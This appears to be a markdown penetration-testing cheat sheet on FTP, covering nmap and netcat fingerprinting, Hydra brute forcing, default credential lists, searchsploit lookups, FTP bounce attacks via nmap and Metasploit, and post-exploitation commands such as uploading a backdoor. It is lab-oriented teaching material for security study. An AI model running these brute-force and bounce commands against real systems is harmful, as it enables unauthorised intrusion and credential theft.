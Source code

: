 
#  File Transfer Protocol (FTP) - Penetration Testing
---

##  FTP Basics
- Remote file system access
- Operates on **TCP ports 21 (control)** and **20 (data)**

---

##  FTP Vulnerabilities
1. Brute force login attacks
2. Anonymous login and unauthenticated access
3. Authentication bypass or exploitation of vulnerable software

---

##  Fingerprinting FTP Services

###  Using Nmap:
```bash
nmap -Pn -sS -A -p21 192.168.10.x
```
![Nmap Scan](images/t1.png)

###  Banner Grabbing using Netcat:
```bash
nc -nv 192.168.10.x 21
```
![Netcat Output](images/t2.png)

###  Useful Nmap FTP Scripts:
- `ftp-anon`: Test for anonymous login access
- `ftp-brute`: Brute force FTP username/password
- `ftp-syst`: Get FTP version and system type

```bash
nmap -p 21 -T4 --script ftp-anon,ftp-syst,ftp-brute 192.168.10.x
```

 Example Output:
```plaintext
Nmap scan report for 192.168.10.129
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-brute: 
|   Accounts: 
|     > user:user - Valid credentials <
|_  Statistics: Performed 1833 guesses in 302 seconds
| ftp-syst: 
|   vsFTPd 2.3.4 - secure, fast, stable
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
```

---

##  Brute Forcing with Hydra
```bash
hydra -L users.txt -P pass.txt ftp://<target-ip>
```

---

##  Version Detection & Exploit Search
After detecting the FTP version, use `searchsploit` to find related vulnerabilities (CVEs):

```bash
searchsploit <ftp-version>
```
![Searchsploit](images/t3.png)

---

##  Default FTP Credentials (Try First)
```bash
ftp:ftp
anonymous:anonymous
user:user
```

 Example with Metasploitable2:
```bash
ftp 192.168.10.x
# Login: ftp
# Password: ftp
```
![FTP Access](images/t4.png)

---

#  FTP Attacks

##  FTP Bounce Attack

###  Concept:
1. FTP Active mode uses `PORT` to send target IP and port
2. Attacker manipulates FTP server to connect to other internal devices
3. Allows internal **port scanning**, **relay attacks**, or **data exfiltration**

###  Tools:

#### Nmap:
```bash
nmap -b <ftp_user>:<ftp_pass>@<FTP_server> <target_network>
```

####  Metasploit:
```bash
use auxiliary/scanner/ftp/ftp_bounce
set RHOSTS <FTP_server>
set RPORT <FTP_port>
run
```

---

##  Post-Exploitation FTP Commands

| Command | Description | Example |
|---------|-------------|---------|
| lcd     | Change local directory     | `lcd /path/to/dir`     |
| cd      | Change server directory    | `cd /target/dir`       |
| ls      | List server files          | `ls`                   |
| get     | Download file              | `get file.txt`         |
| mget    | Download multiple files    | `mget *.txt`           |
| put     | Upload file                | `put backdoor.exe`     |
| mput    | Upload multiple files      | `mput *.exe`           |
| bin     | Binary mode                | `bin`                  |
| ascii   | ASCII transfer mode        | `ascii`                |
| quit    | Exit FTP client            | `quit`                 |

---